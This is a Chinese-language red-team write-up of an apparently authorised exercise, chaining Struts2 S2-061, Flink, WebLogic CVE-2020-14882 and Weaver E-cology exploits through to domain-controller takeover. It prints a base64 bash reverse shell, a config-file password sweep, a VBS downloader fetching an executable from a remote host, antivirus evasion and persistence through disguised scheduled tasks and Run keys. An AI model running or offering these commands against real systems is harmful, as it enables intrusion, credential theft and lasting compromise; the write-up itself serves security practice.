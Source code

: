 ## 首先放上思维导图

![image-20211123114509893](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-20211123114509893.png)

| 主机  | IP                | 权限             |
| ----- | ----------------- | ---------------- |
| mail  | 192.168.1.13      | root             |
| fink  | 192.168.1.17      | 普通用户         |
| pc    | 10.1.1.9          | system           |
| oa    | 10.1.1.3/10.1.5.7 | system           |
| dc-01 | 10.1.5.6          | DC administrator |



### 外围打点：S2-061

对目标web站点进行扫描
发现该站点存在struts2-061漏洞

先寻找利用点

![image-20211123115908015](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-20211123115908015.png)

发现WAF未重制链接，也没有执行构造的表达式，于是翻阅分析github的EXP，发现部分EXP使用了表单提交，于是改用post表单传参提交，成功执行表达式。

![image-20211123120023587](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-20211123120023587.png)

反弹shell:

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eC54eC54eC54eC80NDU1IDA+JjE=}|{base64,-d}|{bash,-i}nc -vlp 9004
```

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-72a78828c8644d9597cab65b826f5df2.png)

进行信息收集,配置文件搜索关键字password,并发现密码：

```
find /  \( -name '*.conf' -o -name '*.xml' \) -exec grep  -ir 'password=' {} \; 2>/dev/null
```

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-c78dd38885244bcda96c390f90585fdd.png)

利用收集的密码尝试使用tomcat用户通过socks代理登录ssh，成功登录
可通过sudo直接提权，拿到root权限：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-ab123b2d342b4d4dba8ddb286867ba3f.png)

配置nps代理，作为跳板。

### 二层：Apache FLink未授权

使用一层跳板，对192.1.1.1/24进行全端口扫描，进行筛选后提取的有效的信息：
http://192.168.1.17/#/overview apache fink
[http://192.168.1.3:8001](http://192.168.1.3:8001/) weblogic

Apache FLink未授权上传jar包远程代码执行漏洞
msf生成恶意jar文件，执行反弹shell，上线后发现为docker环境，在尝试逃逸无效后遂放弃。

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-dada68c968034a828ff2fbc0c77459ff.png)

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-9dfad3485d3f432c93fbdcf8b3640590.png)

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-7d8385bf5cc049d482ec2129c60d73e1.png)



### 二层：weblogic未授权命令执行(CVE-2020-14882)

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-f63219a1296f49c49d4d3900fbae65da.png)

经探测存在CVE-2020-14882 14883漏洞，利用成功：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-560c03c3907048d29e45ee1dc8347ce9.png)

写入vbs下载器，下载恶意exe，并执行上线CS：
echo写入vbs脚本，运行脚本成功下载到1.xml：

```powershell
echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open ^"get^","http://xxxxx:9042/svchost.txt",0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile "1.xml",2 > C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\d.vbs
```


![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-30b0dc02ae6d4f198c333ff65bf6ce92.png)

更名为.exe成功绕过火绒上线：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-765403dced2f4a35a0e697dffd25615c.png)

计划任务以及注册表启动项做权限维持：

```powershell
schtasks /create /SC HOURLY /RU "NT Authority\SYSTEM" /TN "GoogleUpdate" /TR "C:\windows\system32\scvhost.exe"
shell reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v MicrosoftUpdate  /t REG_SZ  /d "C:\windows\system32\scvhost.exe"
```

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-9b9d8e2f560945bca7b4e3f1b2de420d.png)

获取密码

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-2fb7f26a40ab420a8fa0f1f785d561c6.png)

网段查看 arp-a

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-3f62b24073d942969bcf02ba95c6e1f6.png)

查看工作组 net view

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-7b921444ee97480cb62686cac40693f0.png)

继续使用nps做代理，为二层跳板。

### 三层：泛微OA E-cology 远程代码执行漏洞

使用二层weblogic跳板机作为代理，进行扫描发现泛微OA：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-4db761c21a9d497db80adc173f92064b.png)

/weaver/bsh.servlet.BshServlet 该页面可执行命令

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-1891b2b1a48a4e6d8b6cbec06ef738bb.png)

发现域

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-2d523533462c4409abb469e11f48844b.png)

使用泛微OA E-cology 远程代码执行漏洞 获取权限system 且为某域内主机。

上线cs，发现只有80端口能出网，随cs设置80端口监听

将powershell可执行程序复制到其他目录并重命名，绕过火绒上线CS：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-16d8b861558043de9176e0e5d833698f.png)

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-59d1b1c879414415ba59a1a58d399819.png)

计划任务/注册表启动项权限维持。

```powershell
shell schtasks /create /SC DAILY /RU "NT Authority\SYSTEM" /TN "GoogleUpdateCheck" /TR "cmd /c start /b C:\windows\system32\scvhost.exe" /F
shell reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v GoogleUpdateCheck /t REG_SZ /d "C:\windows\system32\GoogleUpdate.bat"
```

域内信息收集：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-4365c7422164440ea973cf577c248c61.png)

发现有域管理员运行的进程，凭证窃取：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-bcdfb84a88494c59b3a1d3150827c2e2.png)

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-3901c19440e74bdbba9f542604e3cda5.png)

伪装成域管理员，获取全域hash:

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-8289cc2a3f8e46dbb7f1d630d0475065.png)

窃取令牌后，可获得域管理员权限，并可成功访问域控：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-9ce987d64c604d75a5760696a98eaa8c.png)

将免杀cs beacon复制到域控：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-19707fcdceae4bb591bfe95db5027003.png)

创建计划任务远程执行：

```powershell
shell schtasks /create /S dc-01 /SC DAILY  /RU "NT Authority\SYSTEM" /TN "MicrosoftUpdate"  /TR "c:\windows\system32\WinDefender.exe"  /F
shell schtasks /Run /S dc-01 /TN "MicrosoftUpdate"
```

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-4650d0c2497443f9bc4754e6a8fc6a4b.png)

拿到域控权限：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-00aa4c6a74d949f49fba0627de0676bd.png)

维持访问：

```powershell
shell schtasks /create /SC HOURLY /RU "NT Authority\SYSTEM" /TN "GoogleUpdateCheck" /TR "cmd /c start /b C:\windows\system32\WinDefender.exe " /F
shell reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v MicrosoftUpdate /t REG_SZ /d "C:\windows\system32\WinDefender.exe"
```

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-cca54d014f6a4869a42aa788bc552584.png)

时至今日：

![image.png](../assets/2021-03-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%86%85%E9%83%A8%E7%BB%84%E7%BB%87%E7%9A%84%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E6%94%BB%E9%98%B2%E6%BC%94%E7%BB%83/image-469f4e3f003249fb99ce2b8d40345bf6.png)

至此，靶标沦陷。



## 总结

本次目标URL共有2个，但其中一个为长期荒废的测试主机，问题就出在了这里。

在我方进行攻击时，防守方在后期发现了我方的C2服务器，对我方其中一台C2实行了DDOS攻击，为了解决此问题，使用了HoneyPort、PortSpoof与Iptables组合反制了DDOS攻击。

